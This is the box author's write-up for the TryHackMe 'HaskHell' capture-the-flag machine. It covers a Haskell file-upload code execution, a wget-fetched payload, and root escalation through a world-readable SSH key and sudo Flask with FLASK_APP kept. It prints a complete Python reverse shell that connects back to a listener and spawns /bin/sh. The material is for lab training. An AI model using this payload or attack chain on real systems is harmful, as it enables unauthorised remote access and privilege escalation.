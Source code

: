 ```yaml
---
layout: default
title: "HaskHell Author's Writeup"
permalink: /HaskHell Author's Writeup"
categories: haskell, tryhackme, haskhell
---
```


This is a brief writeup of the HaskHell box for the TryHackMe platform. You can find the box here: tryhackme.com/rooms/haskhell

This box was made as a medium-ish difficulty box with the intent of introducing users to a new programming language. I don't think that enough boxes showcase weird languages and I'm tired of cracking PHP web apps, so I wanted to do something with some truly weird functionality.

There are a few small snags along the way, but the box is pretty straightforward for the most part.

##Scanning
After scanning, you'll find that port 22 and port 5001 are open. Port 5001 is running a Gunicorn web server.

##The web server
The index of the web server is the home page for a functional programming course, and provides a link to the first homework assignment.
![First page](https://passthehashbrowns.github.io/images/first_page.png)

The first homework assignment contains a few problems, and provides a link to where students can submit their Haskell files. 
![Second page](https://passthehashbrowns.github.io/images/second_page.png)

Unfortunately, the professor included the wrong link and we get a 404.
![Upload page](https://passthehashbrowns.github.io/images/upload_page.png)

With a little more enumeration, we find that there's a Submit page. Looks like the professor just got his wires crossed.
![Dirb scan](https://passthehashbrowns.github.io/images/dirb_scan.png)

Once we navigate to the Submit page, we find a pretty basic file upload functionality.
![Submit page](https://passthehashbrowns.github.io/images/submit_page.png)

On a previous page, the professor noted that only Haskell files would be accepted for upload, because of a lesson learned previously. We can try uploading other types of files, but they won't be accepted. We have a few routes that we can take from here. The immediate thought that comes to mind is to try and use Haskell to interact with system processes. I've written a short piece of code to do just that.

The Python payload that I used is just the PentestMonkey Python one-liner expanded because of my own neurosis.

~~~python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.126.128",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
~~~

NOTE: I've had some users saying that the box is broken because they get an internal server error if there's an integer or special character in the file name. The box isn't broken, this was done on purpose because I didn't want to introduce an OS Command Injection into the machine and I decided to blacklist all non alpha characters except for the dot in the file extensionsince that's exactly how a lazy professor would do it. Totally not cause I'm lazy. You can see the code that causes this here:
![Server error code](https://passthehashbrowns.github.io/images/server_error.png)

Some TryHackMe users were more clever than me and were able to implement this in less lines and handle redirection. The reason the screenshot above uses wget to grab a Python file is that when you try to use createProcess with your standard BASH reverse shell, you get some weird issues with redirection. The solution to this was to use the callCommand function from the System.Process library. My solution was to wget a Python payload and then run it with another file upload. Since this is a Flask web server, we know that Python will be available to the web user.

However, I felt sort of weird that there was no existing reverse shell implementation in Haskell, so I went ahead and wrote my own. [You can find it here.](https://github.com/passthehashbrowns/Haskell-Reverse-Shell) Ironically, it doesn't work on this web server because of how the command is being run, but it does serve as a POC.

Anyways, using the Python payload, we can wget it and then run it.
![Python wget](https://passthehashbrowns.github.io/images/python_wget.png)

Now we get our callback as the flask user.
![Reverse shell catch](https://passthehashbrowns.github.io/images/rev_shell_callback.png)

##Escalating to prof
My preferred Linux enumeration tool is LinPEAS, but whatever tool you use should catch that the prof user's SSH key is world readable.
![LinPEAS SSH key](https://passthehashbrowns.github.io/images/linpeas_ssh_key.png)

Now we can SSH into the server by doing a quick chmod to give our key either 400 or 600 permissions. Once in the server as prof, we'll find that we can run Flask with sudo rights. The other thing that should stand out is that FLASK_APP is in the env_keep entry. This was necessary when building the box as the user needs to be able to set the FLASK_APP variable for later.
![Sudo enumeration](https://passthehashbrowns.github.io/images/sudo_enum.png)

Using Flask we can use the exact same Python payload as before and catch our root shell.
![Flask run](https://passthehashbrowns.github.io/images/flask_run.png)
![Catch root shell](https://passthehashbrowns.github.io/images/catch_root_shell.png)

Hopefully you enjoyed this box, I learned a few things making it and plan on making more in the future.


